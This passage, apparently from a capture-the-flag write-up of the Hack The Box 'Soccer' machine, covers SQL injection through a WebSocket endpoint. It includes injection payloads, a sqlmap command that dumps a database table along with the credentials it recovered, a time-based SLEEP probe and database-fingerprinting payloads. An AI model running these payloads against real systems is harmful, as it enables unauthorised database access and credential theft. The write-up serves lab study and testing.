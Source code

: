 ### Testing Process
```javascript
// 1. Test basic functionality
ws.send(JSON.stringify({"id": "1"}))

// 2. Test for SQL injection
ws.send(JSON.stringify({"id": "1'"}))

// 3. Boolean-based testing
ws.send(JSON.stringify({"id": "92130 or 5=1-- -"}))

// 4. Confirm vulnerability
ws.send(JSON.stringify({"id": "1 OR 1=1-- -"}))
```

### sqlmap Exploitation
```bash
# Soccer HTB WebSocket SQLi
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' --level 5 --risk 3 --batch --threads 10 -D soccer_db --dump

# Results found:
# Database: soccer_db
# Table: accounts
# [1 entry]
# +------+-------------------+----------------------+----------+
# | id   | email             | password             | username |
# +------+-------------------+----------------------+----------+
# | 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
# +------+-------------------+----------------------+----------+
```

---

## Detection and Response Analysis

### Response Analysis
```bash
# Look for different response patterns
# - Response time differences (time-based)
# - Content length variations (boolean-based)
# - Error messages (error-based)
# - Data extraction (union-based)

# Response timing measurement
time echo '{"id":"1 AND SLEEP(5)"}' | wscat -c ws://target:9091
```

### Database Fingerprinting
```json
// MySQL detection
{"id": "1' AND @@version LIKE '%mysql%'-- -"}

// SQL Server detection  
{"id": "1' AND @@version LIKE '%Microsoft%'-- -"}

// PostgreSQL detection
{"id": "1' AND version() LIKE '%PostgreSQL%'-- -"}

// SQLite detection
{"id": "1' AND sqlite_version() IS NOT NULL-- -"}
```

---